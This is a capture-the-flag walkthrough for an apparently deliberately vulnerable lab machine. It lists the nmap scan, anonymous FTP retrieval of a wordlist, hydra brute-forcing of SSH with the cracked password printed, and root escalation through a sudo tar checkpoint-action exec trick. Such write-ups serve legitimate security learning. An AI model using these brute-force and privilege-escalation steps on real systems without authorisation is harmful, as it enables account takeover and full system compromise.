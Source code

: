 1. Scan the network:

	$$ nmap -sV -sC 10.10.111.160 -oN nmap

	==> PORT   STATE SERVICE VERSION

		21/tcp open  ftp     vsftpd 3.0.3

			| ftp-anon: Anonymous FTP login allowed (FTP code 230)

		22/tcp open  ssh     OpenSSH 7.2p2

		80/tcp open  http    Apache httpd 2.4.18 

	## As we can see ftp has the Anonymous access allowed


2. Enumareting FTP

	$$ ftp 10.10.111.160

	==> Name: Anonymous

	$$ ls 

	$$ get locks.txt
	$$ get task.txt

	$$ exit

	$$ cat locks.txt
	$$ cat task.txt 

	==> Now we know that Username is: lin

	## Actually the locks.txt is a wordlist that we can use for bruteforce.


3. Bruteforcing ssh

	$$ hydra ssh://10.10.111.160 -l lin -P locks.txt -V -f

	==> [22][ssh] host: 10.10.111.160   login: lin   password: RedDr4gonSynd1cat3

	$$ ssh lin@10.10.111.160

	==> Password: RedDr4gonSynd1cat3

## We are in the box


4. Privilege escalation

	$$ sudo -l

	==> (root) /bin/tar


	## Acording to GTFOBins:

	$$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

## We are now root...